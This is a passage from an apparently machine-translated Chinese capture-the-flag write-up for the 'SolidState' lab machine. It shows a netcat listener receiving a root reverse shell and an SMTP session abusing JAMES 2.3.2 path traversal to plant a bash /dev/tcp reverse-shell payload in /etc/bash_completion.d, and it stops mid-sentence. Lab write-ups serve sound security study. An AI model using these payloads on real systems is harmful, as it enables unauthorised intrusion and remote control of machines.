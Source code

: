 
这最后一行应该在root运行它后启动一个shell回到我。在下一个三分钟的转弯处，我得到了一个连接：

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49594.
    bash: cannot set terminal process group (1170): Inappropriate ioctl for device
    bash: no job control in this shell
    root@solidstate:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

并且可以抓住：`root.txt`

    root@solidstate:~# cat root.txt 
    b4c9723a************************
    

## 超越根

### 奇怪的案例 /开发/tcp

最初，我尝试的第一个反向外壳有效载荷是。我手动设置它：`bash -i >& /dev/tcp/10.10.14.47/443 0>&1`

    root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 23:28:35 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>
    FROM: 0xdf@10.10.14.47
    
    '
    bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    
    .
    250 2.6.0 Message received
    quit
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.
    

然后触发了它，但出现错误并且连接死亡：
